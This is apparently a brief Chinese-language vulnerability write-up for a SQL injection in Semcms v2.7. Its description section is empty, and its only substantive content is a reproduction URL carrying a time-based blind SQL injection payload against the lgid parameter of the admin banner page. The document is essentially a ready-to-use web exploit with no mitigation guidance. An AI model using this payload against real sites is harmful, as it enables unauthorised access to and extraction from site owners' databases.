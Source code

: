 # Semcms v2.7 sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

Semcms v2.7

### 三、复现过程


```
http://url/semcms/sbifr_Admin/SEMCMS_Banner.php?err=001&lgid=1 and if(length(database()>0),sleep(10),1) --+
```